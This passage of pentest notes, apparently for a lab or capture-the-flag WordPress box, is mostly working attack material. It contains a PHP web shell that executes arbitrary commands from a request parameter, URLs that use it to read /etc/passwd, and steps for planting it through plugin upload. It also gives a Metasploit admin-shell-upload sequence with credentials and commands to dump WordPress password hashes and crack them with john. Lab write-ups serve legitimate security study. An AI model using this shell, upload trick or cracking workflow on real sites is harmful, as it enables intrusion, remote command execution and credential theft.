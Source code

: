 ```shell
        if(isset($_REQUEST['cmd'])){
          echo "<pre>";
          $cmd = ($_REQUEST['cmd']);
          exec($cmd, $results);
          foreach( $results as $r )
          {
                  echo $r."<br/>";
          }
          echo "</pre>";
          die;
        }
      ?>
      /*Usage: http://domain/path?cmd=cat+/etc/passwd*/
    e. visit http://192.168.92.169/backup_wordpress/?cmd=cat%20/etc/passwd to run commands
    f. result will be concatenated to the end of the page
  #3 add webshell via media file @ /wp-admin/plugin-install.php
    a. "Upload plugin" -> "Browse"
    b. example php backdoor:
      <!-- Inpired by DK's Simple PHP backdoor (http://michaeldaw.org) -->
      <?php
        if(isset($_REQUEST['cmd'])){
          echo "<pre>";
          $cmd = ($_REQUEST['cmd']);
          exec($cmd, $results);
          foreach( $results as $r )
          {
                  echo $r."<br/>";
          }
          echo "</pre>";
          die;
        }
      ?>
      /*Usage: http://domain/path?cmd=cat+/etc/passwd*/
    c. plugin install might fail, but php file will be uploaded as a media file
    d. visit http://192.168.92.169/backup_wordpress/wp-admin/upload.php to confirm file upload
    e. use http://192.168.92.169/backup_wordpress/wp-content/uploads/<year>/<monthid>/<filename>.php?cmd=cat%20/etc/passwd to run commands
  #4 metasploit:
    msf> use exploit/unix/webapp/wp_admin_shell_upload
    msf exploit(unix/webapp/wp_admin_shell_upload) > set rhost 192.168.92.169
    msf exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /backup-wordpress
    msf exploit(unix/webapp/wp_admin_shell_upload) > set username john
    msf exploit(unix/webapp/wp_admin_shell_upload) > set password enigma
    msf exploit(unix/webapp/wp_admin_shell_upload) > exploit
extract hashes from wp mysql db and crack via john:
  select concat_ws(':', user_login, user_pass) from wp_users;
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.wp

```
  
| # | Date | Name | Categories | Tags | Overview |
|---|------|------|------------|------|----------|